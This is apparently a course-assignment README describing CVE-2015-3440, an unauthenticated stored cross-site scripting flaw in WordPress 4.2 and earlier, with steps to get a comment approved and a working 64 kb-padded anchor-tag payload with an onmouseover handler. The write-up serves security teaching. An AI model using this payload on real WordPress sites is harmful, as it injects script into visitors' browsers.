 # Steps
#### Step 1 - Gain trust from the admin
######	If you have the ability to post skip to step 3
######	Create a comment on a post.

#### Step 2 - Wait
###### Wait for approval from the admin.

#### Step 3 - Inject XSS
######	Comment the payload.
	<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
 



# The types / classes of vulnerabilities involved and any related CVE identifiers
#### Unauthenticated Stored Cross-Site Scripting (XSS)

#### CVE-2015-3440 



# Affected versions and patches
#### Affected version
###### WordPress <= 4.2 

#### Patched in
###### version 4.2.1



# Demo
![alt text](https://github.com/Mikhail-Kreytser/Cybersecurity-Week7/blob/master/XSS/Demo.gif "XSS Demo")

# References
#### https://klikki.fi/adv/wordpress2.html
#### https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3440
